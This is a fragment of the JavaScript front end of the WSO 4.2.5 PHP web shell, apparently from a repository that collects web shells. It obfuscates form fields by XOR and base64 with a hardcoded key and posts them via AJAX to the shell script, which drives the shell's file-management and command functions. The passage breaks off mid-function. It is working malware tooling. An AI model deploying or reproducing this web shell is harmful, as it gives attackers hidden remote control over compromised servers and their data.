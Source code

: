 	    var a_ = 'FilesMan'
	    var charset_ = 'UTF-8';
	    var p1_ = 'delete';
	    var p2_ = '';
	    var p3_ = '';
	    var d = document;
		
		function encrypt(str,pwd){if(pwd==null||pwd.length<=0){return null;}str=base64_encode(str);pwd=base64_encode(pwd);var enc_chr='';var enc_str='';var i=0;while(i<str.length){for(var j=0;j<pwd.length;j++){enc_chr=str.charCodeAt(i)^pwd.charCodeAt(j);enc_str+=String.fromCharCode(enc_chr);i++;if(i>=str.length)break;}}return base64_encode(enc_str);}
		function utf8_encode(argString){var string=(argString+'');var utftext='',start,end,stringl=0;start=end=0;stringl=string.length;for(var n=0;n<stringl;n++){var c1=string.charCodeAt(n);var enc=null;if(c1<128){end++;}else if(c1>127&&c1<2048){enc=String.fromCharCode((c1>>6)|192)+String.fromCharCode((c1&63)|128);}else{enc=String.fromCharCode((c1>>12)|224)+String.fromCharCode(((c1>>6)&63)|128)+String.fromCharCode((c1&63)|128);}if(enc!==null){if(end>start){utftext+=string.slice(start,end);}utftext+=enc;start=end=n+1;}}if(end>start){utftext+=string.slice(start,stringl);}return utftext;}
		function base64_encode(data){var b64 = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';var o1,o2,o3,h1,h2,h3,h4,bits,i=0,ac=0,enc='',tmp_arr=[];if (!data){return data;}data=utf8_encode(data+'');do{o1=data.charCodeAt(i++);o2=data.charCodeAt(i++);o3=data.charCodeAt(i++);bits=o1<<16|o2<<8|o3;h1=bits>>18&0x3f;h2=bits>>12&0x3f;h3=bits>>6&0x3f;h4=bits&0x3f;tmp_arr[ac++]=b64.charAt(h1)+b64.charAt(h2)+b64.charAt(h3)+b64.charAt(h4);}while(i<data.length);enc=tmp_arr.join('');switch (data.length%3){case 1:enc=enc.slice(0,-2)+'==';break;case 2:enc=enc.slice(0,-1)+'=';break;}return enc;}
		function set(a,c,p1,p2,p3,charset) {
			if(a!=null)d.mf.a.value=a;else d.mf.a.value=a_;
			if(c!=null)d.mf.c.value=c;else d.mf.c.value=c_;
			if(p1!=null)d.mf.p1.value=p1;else d.mf.p1.value=p1_;
			if(p2!=null)d.mf.p2.value=p2;else d.mf.p2.value=p2_;
			if(p3!=null)d.mf.p3.value=p3;else d.mf.p3.value=p3_;
			d.mf.a.value = encrypt(d.mf.a.value,'d69aa478a72ecd3a99c77af6fcf6b917');
			d.mf.c.value = encrypt(d.mf.c.value,'d69aa478a72ecd3a99c77af6fcf6b917');
			d.mf.p1.value = encrypt(d.mf.p1.value,'d69aa478a72ecd3a99c77af6fcf6b917');
			d.mf.p2.value = encrypt(d.mf.p2.value,'d69aa478a72ecd3a99c77af6fcf6b917');
			d.mf.p3.value = encrypt(d.mf.p3.value,'d69aa478a72ecd3a99c77af6fcf6b917');
			if(charset!=null)d.mf.charset.value=charset;else d.mf.charset.value=charset_;
		}
		function g(a,c,p1,p2,p3,charset) {
			set(a,c,p1,p2,p3,charset);
			d.mf.submit();
		}
		function a(a,c,p1,p2,p3,charset) {
			set(a,c,p1,p2,p3,charset);
			var params = 'ajax=true';
			for(i=0;i<d.mf.elements.length;i++)
				params += '&'+d.mf.elements[i].name+'='+encodeURIComponent(d.mf.elements[i].value);
			sr('/webshell-master/php/wso/wso-4.2.5.php', params);
		}
		function sr(url, params) {
			if (window.XMLHttpRequest)
				req = new XMLHttpRequest();
			else if (window.ActiveXObject)
				req = new ActiveXObject('Microsoft.XMLHTTP');
	        if (req) {
	            req.onreadystatechange = processReqChange;
	            req.open('POST', url, true);
	            req.setRequestHeader ('Content-Type', 'application/x-www-form-urlencoded');
	            req.send(params);
	        }
		}
		function processReqChange() {
			if( (req.readyState == 4) )
				if(req.status == 200) {
					var reg = new RegExp("(\\d+)([\\S\\s]*)", 'm');